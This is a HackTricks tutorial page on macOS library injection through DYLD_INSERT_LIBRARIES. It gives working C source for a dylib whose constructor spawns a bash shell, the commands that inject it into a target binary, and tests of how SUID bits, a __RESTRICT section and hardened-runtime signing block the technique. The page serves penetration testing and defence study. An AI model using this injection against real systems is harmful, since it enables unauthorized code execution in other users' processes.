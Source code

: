 # DYLD\_INSERT\_LIBRARIES

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Basic example

**Library to inject** to execute a shell:

```c
// gcc -dynamiclib -o inject.dylib inject.c

#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
__attribute__((constructor))

int myconstructor(int argc, const char **argv)
{
    syslog(LOG_ERR, "[+] dylib injected in %s\n", argv[0]);
    printf("[+] dylib injected in %s\n", argv[0]);
    execv("/bin/bash", 0);
}
```

Binary to attack:

```c
// gcc hello.c -o hello
#include <stdio.h>

int main()
{
    printf("Hello, World!\n");
    return 0;
}
```

Injection:

```bash
DYLD_INSERT_LIBRARIES=inject.dylib ./hello
```

## Bigger Scale

If you are planing on trying to inject libraries in unexpected binaries you could check the event messages to find out when the library is loaded inside a process (in this case remove the printf and the `/bin/bash` execution).

```bash
sudo log stream --style syslog --predicate 'eventMessage CONTAINS[c] "dylib injected"'
```

## Check restrictions

### SUID & SGID

```bash
# Make it owned by root and suid
sudo chown root hello
sudo chmod +s hello
# Insert the library
DYLD_INSERT_LIBRARIES=inject.dylib ./hello

# Remove suid
sudo chmod -s hello
```

### Section `__RESTRICT` with segment `__restrict`

```bash
gcc -sectcreate __RESTRICT __restrict /dev/null hello.c -o hello-restrict
DYLD_INSERT_LIBRARIES=inject.dylib ./hello-restrict
```

### Hardened runtime

Create a new certificate in the Keychain and use it to sign the binary:

{% code overflow="wrap" %}
```bash
codesign -s <cert-name> --option=runtime ./hello
DYLD_INSERT_LIBRARIES=inject.dylib ./hello

codesign -f -s <cert-name> --option=library ./hello
DYLD_INSERT_LIBRARIES=example.dylib ./hello-signed #Will throw an error because signature of binary and library aren't signed by same cert

codesign -s <cert-name> inject.dylib
DYLD_INSERT_LIBRARIES=example.dylib ./hello-signed #Throw an error because an Apple dev certificate is needed
```
{% endcode %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
